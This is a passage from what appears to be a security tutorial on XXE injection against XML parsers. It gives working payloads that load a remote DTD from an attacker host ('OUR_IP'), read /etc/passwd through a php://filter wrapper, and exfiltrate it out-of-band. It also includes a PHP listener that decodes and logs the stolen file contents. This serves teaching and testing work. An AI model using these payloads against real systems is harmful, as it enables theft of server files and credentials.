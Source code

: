 ```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Once we host our DTD script and send the above payload as our XML data (no need to include any other XML data), we will get the content of the /etc/hosts file as follows:

### Completely Blind

#### Out-of-band(OOB) Data Exfiltration

Out of band is like last section where we connected to our machine to get the hosted file.

Instead of sending the request only we can make the webapp send the request to our web server with the content of the file we requested. Like so:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

We can automate this process by making a php webserver: Index.php

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Then run the server `php -S 0.0.0.0:8000` The payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

The request would look like this:&#x20;

<figure><img src="../../.gitbook/assets/XXE(XML External Entity)-7.png" alt=""><figcaption></figcaption></figure>
